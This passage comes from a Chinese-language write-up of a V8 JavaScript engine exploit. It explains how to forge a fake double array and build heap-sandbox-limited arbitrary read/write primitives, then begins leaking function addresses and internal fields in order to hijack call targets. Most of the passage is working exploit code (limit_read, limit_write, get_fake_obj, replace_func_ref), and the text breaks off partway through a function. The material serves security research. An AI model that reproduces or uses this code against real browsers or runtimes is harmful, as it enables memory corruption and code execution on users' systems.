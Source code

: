 此时我们就可以着手准备构造任意地址读写原语了，首先通过混淆数组得到double型数组的map，随后在一个新的double型数组`f_arr`中伪造一个假的double数组`fake_obj`，之后我们就可以通过`f_arr`去控制`fake_obj`的elements地址，但要注意的是因为堆沙箱的存在，被填入的elements地址将被限制在堆沙箱内存区域内：

```js

function limit_read(addr){
  set_elements(addr, 0x2n);
  return utils.ftoi(fake_obj[0]);
}

function limit_write(addr, val){
  set_elements(addr, 0x2n);
  fake_obj[0] = utils.itof(val);
}

function get_map(){
  return utils.ftoi(d_arr[2]);
}

function get_fake_obj(){
  const f_map = get_map();
  f_arr[0] = utils.itof(f_map);
  set_elements(0x4141n, 0x2n);
  const f_arr_addr = leak_addr(f_arr);
  const f_elem_addr = f_arr_addr - 0x18n;
  const f_obj_addr = f_elem_addr + 0x8n;
  d_arr[5] = utils.itof(f_obj_addr);
  return o_arr[0];
}

function set_elements(addr, len){
  f_arr[1] = utils.itof(utils.pair(len, addr));
}

let fake_obj = get_fake_obj();
```

在得到读写原语与地址泄露函数后就可以通过上文中提到的方法去混淆`call_target`了：

```js

function replace_func_ref(){
  do_read(0);
  do_write(0, 0n);
  oob_read(0n);
  oob_write(0n, 0n);
  // get function address
  const do_read_addr = leak_addr(do_read);
  const do_write_addr = leak_addr(do_write);
  const oob_read_addr = leak_addr(oob_read);
  const oob_write_addr = leak_addr(oob_write);
  // get function share_info
  const dr_share_info = 
    limit_read(do_read_addr+0x8n)   & 0xFFFFFFFFn;
  const dw_share_info = 
    limit_read(do_write_addr+0x8n)  & 0xFFFFFFFFn;
  const or_share_info = 
    limit_read(oob_read_addr+0x8n)  & 0xFFFFFFFFn;
  const ow_share_info = 
    limit_read(oob_write_addr+0x8n) & 0xFFFFFFFFn;
  // get function_data
  const dr_function_data = 
    limit_read(dr_share_info) & 0xFFFFFFFFn;
  const dw_function_data = 
    limit_read(dw_share_info) & 0xFFFFFFFFn;
```